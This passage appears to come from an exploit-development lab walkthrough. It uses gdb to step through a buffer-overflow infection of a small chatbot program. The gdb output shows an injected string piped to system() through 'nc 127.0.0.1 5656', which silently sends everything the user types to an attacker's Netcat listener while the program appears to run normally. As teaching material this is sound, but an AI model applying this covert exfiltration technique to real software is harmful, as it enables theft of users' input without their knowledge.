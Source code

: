 Break at `chat()`'s call to `scanf()`:

```bash
(gdb) b *chat+40
```

Run the program, continue, enter any string at the prompt, and continue:

```bash
(gdb) r
...
(gdb) c
Continuing.
You: b
```

You will now have the following:

```bash
Robo: Hahahihi.

Breakpoint 1, 0x000000000040117e in chat ()
1: x/i $rip
=> 0x40117e <chat+40>:  callq  0x401060 <__isoc99_scanf@plt>
2: x/25i 0x401300
0x401300:    mov    $0x401380,%edi
0x401305:    nop
0x401306:    nop
...
3: x/s 0x401380  0x401380:      ""
4: x/s 0x401400  0x401400:      "echo", ' ' <repeats 32 times>, "|nc 127.0.0.1 5656"
5: x/s 0x401500  0x401500:      ""
(gdb)
```

Remove the exploit data to prevent another buffer overflow:

```bash
$ echo foo > /tmp/network
```

Back in gdb, use `ni` to go execute our malicious code one instruction at a time. You will see the template string being copied, user input being accepted and copied to complete the "evil" string that will be used by `system()` and so on.

Disable breakpoints and continue the program to observe that it runs as usual for the user,  accepting input and printing output.

After the infection is complete we expect to see everything that the user types into the prompt being sent to the attacker's Netcat listener, but we won't. Use `strace -f` to find out why. Then you can update the exploit to call a very simple function before calling `system()`, and everything will work properly.

Victim:

```bash
$ ./r2l3
You:  Good evening, my only friend
Robo: Really?!
You:  Sadly, yes
Robo: You're so cool!
You:  Thanks, so are you!
Robo: That's funny!
You:  I got a big secret. Wanna know?
Robo: You're so cool!
You:  █
```
